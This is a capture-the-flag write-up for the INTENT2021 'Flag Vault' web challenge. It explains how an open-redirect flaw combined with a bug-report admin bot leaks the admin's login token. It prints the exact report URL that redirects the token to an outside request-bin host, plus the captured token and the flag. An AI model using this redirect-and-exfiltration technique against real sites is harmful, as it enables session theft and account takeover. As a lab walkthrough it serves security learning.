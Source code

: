 # Flag Vault


## Steps of Analysis

### 1. Inspecting
We're taken into a small site:

![main_page](https://github.com/aviyae/CTFs/blob/master/INTENT2021/flag_vault/main_page.PNG)

Its body looks like that:
```html
<body>
    <main>
        <h1>Flag Vault</h1>
        <form>
            <input type="email" required name="email" placeholder="Email" />
            <input type="password" required name="password" placeholder="Password" />
            <button>Show Flag</button>
        </form>
        <a href="javascript:report()">Report a bug</a>
    </main>
    <script>
        const params = new URLSearchParams(window.location.search);
        const query = Object.fromEntries(params.entries());
        const redirectTo = String(query.redirect || "");

        const form = document.querySelector("form");
        const email = document.querySelector("input[name=email]");
        const password = document.querySelector("input[name=password]");

        form.addEventListener("submit", async function (event) {
            event.preventDefault();

            const jsonBody = JSON.stringify({ email: email.value, password: password.value });

            const response = await fetch("/api/v1/login", {
                method: "POST",
                headers: {
                    "Content-Type": "application/json"
                },
                body: jsonBody
            });

            if (response.status === 401) {
                return alert("Invalid email or password");
            }

            const jsonData = await response.json();
            window.location = location.origin + redirectTo + "?token=" + jsonData.token;
        });

        function report() {
            const url = prompt("URL", window.location.href);
            fetch("/api/v1/report?url=" + encodeURIComponent(url));
        }
    </script>
</body>
```
POST request sent with the email and password and a secret token probably sent back when the email and the password is correct.
Two interesting points there are:
* The "report a bug" button
* The redirect mechanism

Needless to say that we don't know the "correct" email and password:
![main_page_error](https://github.com/aviyae/CTFs/blob/master/INTENT2021/flag_vault/main_page_error.PNG)

### 2. Report a Bug
We can "report" a bug by sending a URL

![report_bug](https://github.com/aviyae/CTFs/blob/master/INTENT2021/flag_vault/main_page_report_bug.PNG)

We assume that  "someone" (probably the admin) will enter that link later to watch the given link.

We'd  like to make the admin in the other side to enter a link that controlled by us (like in a request bin) to get his cookies (the token in our case)

The problem with the above idea is that the server returns an error when it gets external URL.

So we can't send in the "report bug" request a direct link to the request bin because sending:
http://flag-vault.chal.intentsummit.org/api/v1/report?url=http://enqr0riu3ob4o6p.m.pipedream.net
will result in:
```
{"error":"INVALID_URL_HOST"}
```

Therefore the link that we give here should be in the same domain.

All in all looks ok, and no bugs being seen so far... :(

But fortunately, there is another place in the code that can send (redirect) us to other place.

### 3. Redirect
The bug is in the redirect mechanism

The redirection mechanism here takes the content of a parameter named "redirect":
```js
const redirectTo = String(query.redirect || "");
```
And later **concatenates** the current address to it
```js
window.location = location.origin + redirectTo + "?token=" + jsonData.token;
```
Can we make this expression to go outside the domain?

YES :)

We can use the current address to be parsed as a **username** instead of an address by concatenating to it an "@" symbol.

In that way, sending @enqr0riu3ob4o6p.m.pipedream.net as "redirect" parameter will result in changing the window location to:
http://flag-vault.chal.intentsummit.org@enqr0riu3ob4o6p.m.pipedream.net
The previously-domain-name is now used as a username :)

### 4. Conclusion
So far, we want to report an address in the domain.

And we want the admin to enter it and to be redirected to the our request-bin, hopefully with its token.

We can achieve it by reporting on this URL:
http://flag-vault.chal.intentsummit.org/?redirect=@enqr0riu3ob4o6p.m.pipedream.net

The address here is in the "right domain", and upon redirection the "right domain" will be treated as a username.

Cool

## solution
According to the above, we'll send this request first:
http://flag-vault.chal.intentsummit.org/api/v1/report?url=http://flag-vault.chal.intentsummit.org/?redirect=@enqr0riu3ob4o6p.m.pipedream.net
In response we get the token to the request bin!
![request_bin_token](https://github.com/aviyae/CTFs/blob/master/INTENT2021/flag_vault/requestbin_token.PNG)

The expiration date of the token is 10 seconds, so in that time we should quickly send:
http://flag-vault.chal.intentsummit.org/admin/?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6dHJ1ZSwiaWF0IjoxNjM2OTI1NTU0LCJleHAiOjE2MzY5MjU1NjR9.kkBa7w3fkp2kO06TcV-V1lYQFCrfNVBIbG5TFd8RS1I
response:
```
{"flag":"INTENT{danger0us_0pen_red1rect}"}
```
